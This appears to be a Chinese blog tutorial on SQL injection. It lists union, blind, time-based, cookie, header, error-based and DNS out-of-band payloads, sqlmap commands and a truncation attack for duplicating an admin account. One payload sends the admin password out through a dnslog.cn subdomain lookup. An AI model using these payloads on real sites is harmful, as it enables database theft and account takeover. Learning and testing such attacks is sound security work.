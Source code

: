 ```yaml
---
title: sql注入
date: 2022-04-10 16:26:17
categories:
- security
tags:
- sql注入
toc: true
---
```

**摘要：本文介绍了sql注入**
<!-- more -->
---
# 零.sql
## 1.常用语法
mysql和sql server都是最常用的数据库语言，虽然语法不同但特别相似。其中mysql是开源的，sql server是微软开发的。
```
limit m,n # 查询m+1行的n条数据。 m+1行开始查询多少条？如limit 0,1
group_concat #多行数据用一行显示
```
## 2.information_schema
库：information_schema 是Mysql数据库里面一个自带的库的库名，存储着你所有的数据库名、表名和列名。
表：schemata,tables，columns;schemata存库名，tables存放都是表名，columns都是列名
列：table_name(存储的表名)， table_schema（存储的是库名），column_name（存储的是列名）
## 3.注释
mysql的两种注释：
```c
-- abc   //abc不会被识别，注意--后有空格，但打空格会被自动取消掉，可以打空格的url编码%20或+
#abc    //GET型不能打#,要打#的url编码%23
```

# 一、sql注入
## 1.什么是sql注入
用户在网页输入的内容被浏览器当做数据库语句进行执行。
原因是服务端在接收来自客户端的查询参数后，未对查询参数进行严格的过滤。导致恶意用户可在查询参数中插入恶意的sql语句来查询数据库中的敏感信息，最终造成数据库信息泄露。这也是安全防护的方法

## 2.注入分类
### 显错注入/联合注入
基本流程
1.判断网站是否存在数据库注入漏洞
	and 1=2  网页没有内容  => 这个网站存在数据库注入漏洞。
原因：我们输入的数据库语句被网站代入到他的数据库中执行了。
2.判断字段（列）数， order by  ，作用是排序。 
	order by 3 --> 页面没有内容，说明网站的那个表没有3列
3.查看回显点： union ，作用是联合查询，能够同时执行两条数据库查询语句。
注意：必须保证两条数据库查询语句查询的表的列数一致。
回显点：如修改select 1,2中的2，页面内容发生变化，则第二列为回显点。
4.查询相关内容
    and 1=2 union select 1,2
    and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 0,1 
    and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='zdafiilhhc' limit 0,1 
    and 1=2 union select 1,列名 from 表名 limit 0,1


### 盲注
#### (1)布尔注入
盲注和显错注入的区别就是没有回显点。即我们要通过判断的方式，去查询
```
length(database()) # 查询的是【当前数据库库名】的长度。
length(database())=2  --> 无查询数据 --> 当前数据库的库名不是2个字符
substr('cmd',1,1) #  --> 截取的是 c 
substr(database(),1,1)  # 截取【当前数据库库名】的第一个字符。
and substr(database(),1,1)='a' --> 页面无内容--> 说明当前数据库库名第一个字符不是a
and substr((select table_name from information_schema.tables where table_schema = database() limit 0,1),1,1) = 'a' --> 第一个字符不是a
```
#### (2)时间注入
```
if(length(database())=12,sleep(5),1) --> 网站延迟显示5秒，说明判断条件是对的-->当前数据库库明的长度是12
```
### cookie注入
当你使用Cookie进行传参的时候 ，传参的值一定要进行URL编码的。
默认浏览器是会URL编码的。  空格--> %20
如果用的数据库是ACCESS，语法比较正规(select后一定要有from即要先找到一个表名)
`b9a2a2b5dffb918c -> md5解码-> welcome`
```
escape() # 函数，作用：进行URL编码
document.cookie = "id=" + escape("171 and 1=2 union select 1,2,3,4,5,6,7,8,9,10 from admin")
```

### head注入
HEAD注入条件是知道用户名密码或登录状态

网络中web访问是以IP数据包形式传输数据，每个数据包由头部（head）和数据体（body）组成，head中有访问者的各种信息。

有的网站他会为了保存我们的信息作为比对会把head头中的信息保存到数据库中以便下一次使用。通讯时我们若能抓到请求数据包，并将头部中身份信息修改则为HEAD注入。抓包实例如下（使用burp）

就像图中User-Agent本意是表示你是哪种访问方式例如苹果、微软、安卓、华为等等，图中我把他的值更换为了一个注入语句，并报错就返回了我关心的结果。

```
updataxml或extractvalue #报错函数 head注入是通过引起报错，来返回需要的信息，所以不需要回显点
concat
```
下面详细讲解UPDATEXML (XML_document, XPath_string, new_value);
```
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串)<--有特定要求格式
第三个参数：new_value，String格式，替换查找到的符合条件的数据
作用：改变XML_document文档中符合XPATH_string的值
```
注入语句为
```
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```
其中的concat()函数是将其连成一个字符串，因此不会符合XPATH_string的格式，从而出现格式错误，爆出错误`ERROR 1105 (HY000): XPATH syntax error: '得到的数据'`
### 报错注入
任何能引起数据库报错的输入，如引号

![3](https://cdn.jsdelivr.net/gh/zhangsx19/PicBed/images_for_blogs3.png)

```bash
试下' and 1=1111,看报错信息
'aandnd updatexml(1,concat(0x21,@@version,0x21),1)-- q#能让数据伴随报错一起显示
0x21->!的编码 能让我们更快地识别出信息
```
### DNS_LOG注入
利用DNS解析然后配合日志记录，将数据库里面的数据oob：out of bind  数据外带。。
特点：能够将盲注变成显错注入。
[DNS解析记录的日志网站](http://www.dnslog.cn/),作用：可以申请一个域名，然后会记录下任何访问了这个域名和子域名的IP
```bash
fefaad.dnslog.cn #有记录。
database.fefaad.dnslog.cn   #子域名也有记录
```
```bash
load_file() # 作用是：读文件
concat() #  作用是 拼接字符串
select load_file() #读取文件内容

select load_file(concat(‘//’,(数据库语句),’.域名/1.txt’))
select load_file(concat('//',(select password from admin limit 0,1),'.qtm0xb.dnslog.cn/1.txt'))
```
如图，发现没有回显点后，先输入and (),要执行括号里的语句:`select load_file(concat(‘//’,(数据库语句),’.域名/1.txt’))`注意一定要带一个文件，文件是什么无所谓，但loadfile是读取文件的，必须在mysql命令里写一个文件名上去。

# 二、bypass
# 三、sqlmap
```bash
sqlmap -u ""  #kali用法
sqlmap -u "" -p id,wd #指定测试的参数，默认测试所有参数 --逐参删除法，直到找到影响页面的参数，只能跟-u
sqlmap -r 1.txt #确定目标网站，1.txt存放burp抓到的请求包
–force-ssl #https。或者可以在Host头后面加上端口443。
```

# 四、sql约束攻击
新建表格名字为user，该表的约束的是名字和密码长度不能超过10
插入长度大于10的用户名，查看插入的数据，发现只保留了十个字符
再插入一条加空格的用户名，发现和不加空格插入的admin一样
![20220607014904](https://s2.loli.net/2022/06/07/5njeMs9m2LXqVrv.png)
可实现admin的重复注册和插入数据库